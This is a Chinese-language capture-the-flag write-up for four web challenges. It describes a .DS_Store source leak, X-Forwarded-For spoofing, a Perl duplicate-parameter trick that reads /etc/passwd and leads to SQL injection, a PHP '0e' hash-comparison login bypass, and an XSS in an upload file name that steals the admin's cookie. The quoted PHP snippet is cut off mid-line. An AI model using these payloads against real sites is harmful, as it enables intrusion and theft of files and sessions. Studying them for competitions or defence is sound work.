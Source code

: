 # CountingStars 100

下载'/.DS_Store'恢复源代码，计算$$$$$$...$$$S的值是'd0llars'，提交后得到302跳转，里面的body部分就是flag

# Invisible 100

没什么好说的，加'X-Forwarded-For: 127.0.0.1'

# WeirdCamel 400

蛋疼perl的奇怪特性，http请求重复提交某一字段后会有奇怪效果....    
不附带参数直接post的话，perl代码接受到的变量的值大致好像是（这里用json表示）
```js
{
'name': 'PHONE',
'phone': '',
'email': ''
}
```
提交`name=1`有：
```js
{
'name': '1',
'phone': 'EMAIL',
'email': ''
}
```
提交`name=1&name=2`有：
```js
{
'name': '2',
'phone': '',
'email': ''
}
```
提交`name=1&name=2`有：
```js
{
'name': '2',
'phone': '',
'email': ''
}
```
提交`name=1&name=2&name=3`有：
```js
{
'name': '1',
'phone': 'EMAIL',
'email': ''
}
```

从上面的效应大概可以知道，perl大概直接把hash结构存为一个数组，不提交参数时就是
```js
['NAME','PHONE','EMAIL']
```
解释成`{'NAME':'PHONE', 'EMAIL': ''}`，然后提交`name=1`的时候就变成：
```js
['NAME','1','PHONE','EMAIL']
```
解释成`{'NAME':'1','PHONE':'EMAIL'}`,然后提交`name=1&name=2`的时候就变成：
```js
['NAME','1','2','PHONE','EMAIL']
```
解释成`{'NAME':'1','2':'PHONE','EMAIL':''}`等等....

那么我们脑洞一下后就可以知道要改STATEMENT的值，那就提交`name=1&name=STATEMENT&name=/etc/passwd`就可以读取'/etc/passwd'啦     
读register.pl后可以发现里面有个注释了的`#print <a href='什么什么news.pl?id=1'>`，然后就是sql注入     

在perl里面转义函数quote()在形如"id=1'&id=2"的时候直接返回"1'"....也就是直接无障碍裸的sql注入....    

payload:
[perl.png](perl.png)


# BOSS 500

`http://question12.erangelab.com/login.php~`可以看代码，为什么这么执着于备份文件.....

```php
<?php
$username = $_POST['username'];
$password_md5 = $_POST['password'];
// check username and password
if($username=="editor" && $password_md5=="0e
{
// login success
// somecode...
}else{
// login fail
    echo 'ERROR:USERNAME OR PASSWORD WRONG!';
}
```

直接`username=editor&password=0`登录，然后要上传一个文件     
试了下发现`Content-Type:application/msword`，然后上传文件名中'/'前的字符全被扔掉，    
然后估计是在文件名里面XSS管理员，那么注意一下把'/'用'&#47;'代替一下就好，当然也可以用其他办法，    

XSS返回：
'''
...
  'HTTP_CONNECTION' => 'keep-alive',
  'HTTP_CACHE_CONTROL' => 'max-age=0',
  'HTTP_USER_AGENT' => 'Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.106 Safari/537.36',
  'HTTP_ACCEPT' => 'image/webp,image/*,*/*;q=0.8',
  'HTTP_REFERER' => 'http://question12.erangelab.com/xnuca_checklist.php',
  'HTTP_ACCEPT_ENCODING' => 'gzip, deflate, sdch',
  'HTTP_ACCEPT_LANGUAGE' => 'zh-CN,zh;q=0.8',
  'PHP_SELF' => '/rec.php',
  'REQUEST_TIME_FLOAT' => 1469968445.9431269,
  'REQUEST_TIME' => 1469968445,
)array (
  'str' => 'send_role=xt=urn:btih:1207054EE7FBB53FF0708BDE6A7934B7E5095CC9',
)array (
)
'''

下载cookie的磁力链接即可看到flag。